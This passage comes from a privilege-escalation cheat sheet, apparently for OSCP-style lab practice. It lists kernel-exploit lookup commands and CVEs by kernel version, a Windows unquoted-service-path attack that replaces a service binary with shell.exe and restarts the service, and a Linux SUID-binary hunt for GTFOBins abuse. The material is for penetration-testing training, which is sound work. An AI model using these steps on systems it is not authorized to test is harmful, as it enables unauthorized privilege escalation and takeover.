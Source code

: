 ### Kernel Exploits (Last Resort)
```bash
# Check kernel version
uname -r
cat /proc/version

# Search for kernel exploits
searchsploit linux kernel $(uname -r)
searchsploit linux $(lsb_release -d | cut -d: -f2 | xargs)

# Common kernel exploits by version:
# 2.6.x: DirtyCow, Overlayfs
# 3.x-4.4: DirtyCow (CVE-2016-5195)
# 4.4.x: AF_PACKET (CVE-2017-7308)
# 4.8.x-4.10.x: AF_PACKET (CVE-2017-7308)
```

## TJ Null Specific Scenarios

### Common TJ Null Privilege Escalation Patterns

#### Pattern 1: Service Misconfiguration (Windows)
```cmd
# Typical TJ Null Windows box scenario:
# 1. Unquoted service path
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# 2. Check write permissions
icacls "C:\Program Files\Service Directory\"

# 3. Create payload and restart service
copy shell.exe "C:\Program Files\Service.exe"
sc stop ServiceName
sc start ServiceName
```

#### Pattern 2: SUID Binary (Linux)
```bash
# Typical TJ Null Linux box scenario:
# 1. Find unusual SUID binary
find / -perm -4000 2>/dev/null | grep -v '/usr/bin\|/bin\|/usr/sbin\|/sbin'

# 2. Check if it's a custom binary or standard tool
file /path/to/suid/binary
strings /path/to/suid/binary

# 3. Exploit via GTFOBins or command injection
/path/to/suid/binary --help
```
